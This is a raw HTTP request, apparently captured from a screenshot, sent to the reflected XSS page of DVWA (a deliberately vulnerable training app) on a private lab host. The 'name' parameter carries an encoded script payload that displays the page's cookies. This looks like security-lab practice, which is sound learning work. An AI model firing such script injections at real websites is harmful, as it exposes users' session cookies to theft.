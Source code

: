 GET /dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E HTTP/1.1

Host: 10.0.0.87

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Cookie: security=low; PHPSESSID=efql019acl3531g7he4q74b7u0

Upgrade-Insecure-Requests: 1

Cache-Control: max-age=0

